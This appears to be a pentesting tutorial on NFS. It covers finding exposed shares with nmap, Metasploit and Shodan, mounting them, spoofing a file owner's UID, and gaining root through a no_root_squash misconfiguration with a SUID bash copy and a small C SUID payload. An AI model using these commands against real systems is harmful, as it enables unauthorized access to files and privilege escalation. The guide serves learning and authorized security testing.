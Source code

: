 ```yaml
---
title: NFS Pentesting Best Practices
categories: [pentesting protocols,nfs]
tags: [pentesting,nfs,best practicies]
comments: true
---
```


# NFS

> NFS usually uses ports 111, 2049
{: .prompt-tip }

# What is NFS?

NFS (Network FileSysem) is a very stable and powerful file system for sharing storage devices of UNIX/Linux operating systems. Thanks to NFS; The same files can be accessed from multiple computers. It provides convenience in data storage. Instead of installing to the local disk for each application, it allows applications to be shared.

```bash
PORT     STATE SERVICE               VERSION
2049/tcp open  nfs    
```

# NFS Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| `port:2049` |

## Misconfigured NFS

A lot of data is obtained in file sharing in most of the companies that are tested for network penetration.

### NFS Service Detection in Network with Nmap

```bash
nmap -n -PN -sS -T5 -p 2049 --script=nfs-showmount 10.10.x.x/24
nmap --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs.nse -p 2049 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs.png)

### Network NFS Service Detection with Metasploit

```bash
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > set RHOSTS 10.10.x.x/24
msf auxiliary(nfsmount) > run
```

![Untitled](/assets/img/pitcures/nfs/nfs1.png)

### NFS Shares Listing With "showmount"

```bash
showmount -e 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs2.png)

### Access to discovered NFS shares

```bash
mount -t nfs 10.10.x.x:/export/home /mnt/connect_path
mount -t nfs -o vers=2 10.10.x.x:/export/home /mnt/connect_path -o nolock # You should specify to use version 2 because it doesn't have any authentication or authorization.
```

### Access to discovered NFS shares with same user UID Permissions

In the terminal we can see the shared arguments and what UID value they belong to a user.

```bash
-rwxr----- 1923 1000 1898 example.doc
```

We see that there is a document. But we may need to open this doc file with a user with an authorized user UID. First of all, let's unmount the mount we mounted with the unmount command. Then let's create a user with the same UID value in the local system.

```bash
umount /connect_path
```

Yes, we have unmounted. Now let's create a user with the same UID value.

```bash
useradd newuser
```

setting the user UID value

```bash
usermod -u 1923 newuser
```

Connecting the share to the local system again after setting the UID value.

```bash
mount -t nfs 192.168.x.x:/export/home /home/newuser/Desktop/connect_path
```

## NFS no_root_squash/no_all_squash misconfiguration PE

Read the `/etc/exports`{: .filepath}  file, if you find some directory that is configured as `no_root_squash`, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

`no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no_all_squash:** This is similar to no_root_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked `/etc/exports`{: .filepath} file; no_all_squash option is present; check /etc/passwd`{: .filepath} file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

### Privilege Escalation

#### Remote Exploit

If you have found this vulnerability, you can exploit it:

Mounting that directory in a client machine, and as root copying inside the mounted folder the `/bin/bash` binary and giving it SUID rights, and executing from the victim machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

**Mounting that directory** in a client machine, and as root copying inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and execute from the victim machine that binary (you can find here some C SUID payloads).

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    setuid(getuid());
    system("/bin/bash");
    return 0;
}
```
